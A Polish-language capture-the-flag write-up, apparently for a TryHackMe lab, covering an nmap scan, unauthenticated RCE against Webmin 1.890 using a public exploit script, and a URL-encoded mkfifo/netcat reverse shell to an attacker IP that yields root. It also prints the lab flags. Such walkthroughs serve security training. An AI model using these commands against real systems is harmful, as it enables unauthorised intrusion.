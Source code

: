 # Source
IP=10.10.21.98

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.21.98 
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-28 11:31 EDT
Nmap scan report for 10.10.21.98
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.87 seconds
```

Zostały wykryte dwa porty: 22 (SSH) i 10000 (http)
## Skanowanie

### Port 10000
Rozpoczynamy od sprawdzenia portu 10000. Ze skanu narzędzia nmap wynika, że wersja serwisu http to MiniServ 1.890. Szukamy możliwych podatności:

![Vuln](img/Vuln.JPG)

Widzimy, że serwis jest prawdopodobnie podatny i można uzyskać nieautoryzowane zdalne wykonanie kodu (RCE). 

## Eksploitacja

Pobieramy [exploita](https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/blob/master/webmin-1.890_exploit.py) ,nadajemy mu uprawnienia do wykonywania oraz uruchamiamy go:

![Exploit](img/Exploit.JPG)

Widzimy, że komenda "id" została wykonana. Używając kodowania URL odczytujemy flagę user.txt za pomocą poniższej komendy:

```
python3 webmin-1.890_exploit.py 10.10.21.98 10000 cat%20/home/dark/user.txt
```

![Flag1](img/Flag1.JPG)

```
THM{SUPPLY_CHAIN_COMPROMISE}
```

## Zwiększenie poziomu uprawnień

Spróbujemy uzyskać dostęp do systemu poprzez reverse shell. Wykorzystujemy do tego komendę w formacie URL (należy zmienić adres IP oraz PORT):

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20[IP]%20[PORT]%20%3E%2Ftmp%2Ff
```

Końcowa komenda:

```
python3 webmin-1.890_exploit.py 10.10.21.98 10000 rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20[IP]%20[PORT]%20%3E%2Ftmp%2Ff
```

Uzyskujemy dostęp do serwisu jako użytkownik root. Z pliku root.txt odczytujemy drugą flagę:

![Flag2](img/Flag2.JPG)

```
THM{UPDATE_YOUR_INSTALL}
```

Do zobaczenia na kolejnych CTF-ach!
